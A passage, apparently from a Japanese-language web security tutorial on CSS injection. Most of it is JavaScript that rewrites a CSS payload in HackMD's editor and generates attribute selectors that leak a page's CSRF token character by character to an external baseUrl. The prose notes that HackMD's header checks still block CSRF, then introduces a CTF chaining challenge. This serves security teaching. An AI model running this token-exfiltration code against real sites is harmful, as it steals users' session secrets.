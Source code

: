 ```js
  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}
```

Node.jsで直接実行できます。実行後、ブラウザで対応するドキュメントを開くと、ターミナルでリークの進行状況を確認できます。

しかし、HackMDのCSRFトークンを盗むことができたとしても、依然としてCSRFを実行することはできません。なぜなら、HackMDはサーバーでオリジンやリファラーなどの他のHTTPリクエストヘッダーをチェックし、リクエストが正当なソースから来ていることを確認しているからです。

## CSSインジェクションと他の脆弱性の組み合わせ技

サイバーセキュリティの世界では、創造性と想像力が不可欠です。時には、いくつかの小さな脆弱性を組み合わせることで、深刻度を高めることができます。今回は、CSSインジェクションと別の脆弱性を組み合わせたCTFチャレンジを共有したいと思います。これは非常に興味深いと思います。
